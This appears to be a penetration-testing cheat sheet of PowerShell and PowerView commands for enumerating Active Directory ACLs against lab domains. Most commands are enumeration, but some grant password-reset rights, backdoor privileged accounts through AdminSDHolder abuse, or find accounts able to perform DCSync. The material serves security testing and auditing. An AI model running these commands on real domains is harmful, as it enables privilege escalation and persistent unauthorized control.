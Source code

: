 # Domain ACL

## General

- Access Control Entries (ACE) correspond to individual permission or audits access
- Who has permission and what can be done on an object?
- Two types:
  - DACL -> Defines the permissions trustees (a user or group) have on an object
  - SACL - Logs success and failure audit messages when an object is accessed

## Enumerate ACLs without Resolving GUIDs

```powershell
# AD Module
(Get-ACL 'CN=Domain Admins,CN=Users,DC=dc01,DC=dc02,DC=local').Access
```

## Get the ACLs Associated with the Specified Object

```powershell
# PowerView
Get-ObjectACL -SamAccountName "Users" -ResolveGUIDs
```

## Get the ACLs Associated with the Specified Prefix to Be Used for Search

```powershell
# PowerView
Get-ObjectACL -ADSPrefix 'CN=Administrator,CN=Users' -Verbose
```

## Get the ACLs Associated with the Specified LDAP Path to Be Used for Search

```powershell
# PowerView
Get-ObjectACL -ADSPath "LDAP://CN=Domain Admins,CN=Users,DC=dc01,DC=dc02,DC=local" -ResolveGUIDs -Verbose
```

## Search for Interesting ACEs

```powershell
# PowerView
Invoke-ACLScanner -ResolveGUIDs
```

## Get the ACLs Associated with the Specified Path

```powershell
# PowerView
Get-PathACL -Path "\\dc01.lab.local\sysvol"
```

## Enumerate Who Has Rights to the 'matt' User in 'testlab.local', Resolving Rights GUIDs to Names

```powershell
# PowerView
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local
```

## Grant User 'will' the Rights to Change 'matt's Password

```powershell
# PowerView
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```

## Audit the Permissions of AdminSDHolder, Resolving GUIDs

```powershell
# PowerView
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs
```

## Backdoor the ACLs of All Privileged Accounts with the 'matt' Account through AdminSDHolder Abuse

```powershell
# PowerView
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```

## Retrieve *most* Users Who Can Perform DC Replication for dev.testlab.local (i.e. DCsync)

```powershell
# PowerView
Get-DomainObjectAcl "dc=dev,dc=testlab,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}
```

## Enumerate Permissions for GPOs where Users with RIDs of > -1000 Have Some Kind of Modification/Control Rights

```powershell
# PowerView
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
```
